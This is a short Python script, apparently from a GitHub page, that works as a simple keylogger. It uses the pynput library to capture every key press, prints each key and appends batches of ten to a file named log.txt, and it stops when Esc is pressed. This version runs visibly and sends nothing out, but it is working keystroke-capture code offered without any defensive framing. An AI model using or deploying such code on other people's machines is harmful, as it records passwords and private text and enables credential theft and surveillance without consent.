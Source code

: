 import pynput

from pynput.keyboard import Key,Listener

count = 0
keys = []

def on_press(key):
    global count,keys
    count += 1
    print("{0} pressed".format(key))
    keys.append(key)

    if count >= 10:
        count = 0 
        write_file(keys)
        keys = []

def write_file(keys):
    with open("log.txt" , "a" , encoding="utf-8") as file:
        for key in keys:

            k = str(key).replace("'", "")     
            if k.find("space") > 0:
                file.write("\n")
            elif k.find("Key") == -1:
                file.write(k)

            

def on_release(key):
    if key == Key.esc:
        print("exit")
        return False


with Listener(on_press = on_press, on_release = on_release) as Listener:
    Listener.join()
